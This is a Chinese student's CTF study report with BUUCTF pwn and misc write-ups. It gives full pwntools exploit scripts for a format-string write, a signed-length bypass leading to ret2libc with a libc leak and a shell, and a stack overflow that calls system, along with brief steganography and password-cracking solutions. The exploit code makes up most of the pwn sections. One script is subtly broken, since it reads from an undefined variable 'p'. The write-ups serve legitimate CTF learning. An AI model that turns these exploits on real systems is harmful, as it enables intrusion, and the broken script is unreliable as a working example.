# 翟一鸣学习报告03

## 前言

刷了点buuctf上的pwn和misc(为了出题)，学习汇编(b站，小甲鱼)，看《从0到1CTFer成长之路》有关pwn的部分

有关汇编的知识，我主要就是看看视频，因为时长也比较长，相关的笔记就没这么做

## buuctf

### pwn

#### mrctf2020_easy_equation（格式化字符串）

64位，动态链接，NX保护打开



printf,可以发现有格式化字符串漏洞

只要满足第8行的条件就可以执行 /bin/sh，可以算出judge=2

所以利用格式化字符串漏洞修改judge的值等于2，就可以完成攻击



代码如下

```python
from pwn import *
context.log_level='debug'

io = remote("node4.buuoj.cn",25534)
#p = process("./mrctf2020_easy_equation")

judge = 0x060105C
payload = "BB%9$nAAA"+p64(judge) 

io.sendline(payload)
io.interactive()
```

#### pwn2_sctf_2016（常规）

32位，动态链接，NX打开



可以看到数据长度被限制为32，无法溢出



接受a2个长度的字符串并放到vuln函数的缓冲区内部，但是a2传入的值类型是unsigned int，而前面判断长度的类型是int，可以规避长度限制。

因此输入负数长度，则可绕过长度检查



代码如下

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

#io = process('./pwn2_sctf_2016')
io = remote('node4.buuoj.cn', 26080)
elf = ELF('./pwn2_sctf_2016')

format_str = 0x080486F8
printf_plt = elf.plt['printf']
main_addr = elf.symbols['main']
printf_got = elf.got['printf']

io.recvuntil('read? ')
io.sendline('-1')
io.recvuntil('data!\n')

payload = 'a'*0x30 + p32(printf_plt)+p32(main_addr)+p32(format_str)+p32(printf_got)
io.sendline(payload)

io.recvuntil('said: ')
io.recvuntil('said: ')

printf_addr = u32(p.recv(4))
libc = LibcSearcher('printf', printf_addr)

libc_base = printf_addr - libc.dump('printf')
sys_addr = libc_base + libc.dump('system')
str_bin = libc_base + libc.dump('str_bin_sh')

io.recvuntil('read? ')
io.sendline('-1')
io.recvuntil('data!\n')
io.sendline('a'*0x30 + p32(sys_addr) + p32(main_addr) + p32(str_bin))
io.interactive()

```

#### Jarvis oj Test your Memory

32位，动态链接，NX打开



main函数如下



mem函数的这里可以造成栈溢出



可以在hint中遭到catflag字符串


system函数也调用过，所以不用泄露libc



代码如下

```python
from pwn import*
io = remote('node4.buuoj.cn', 27080)

system_plt=0x08048440

payload='A'*23+p32(system_plt)+p32(0x080485bd)+p32(0x080487E0)

io.recvuntil("> ")

io.sendline(payload)
io.interactive()

```


### misc

#### N种方法解决

exe文件，放到010查看



打开后可以看到是个base64密码图像，找到在线解密工具后解出来二维码，可得到答案



#### 大白


用010查看png图片，从10开始前四位是长，后四位是宽 可以看出长宽不符合



修改宽度，把宽度增大，就可以看到flag了


#### 基础破解

四位数字加密，直接可以暴力破解



得到压缩包密码



base64加密，转换一下就到了flag



#### 乌镇峰会种图

直接用010看到最后一行，找到flag

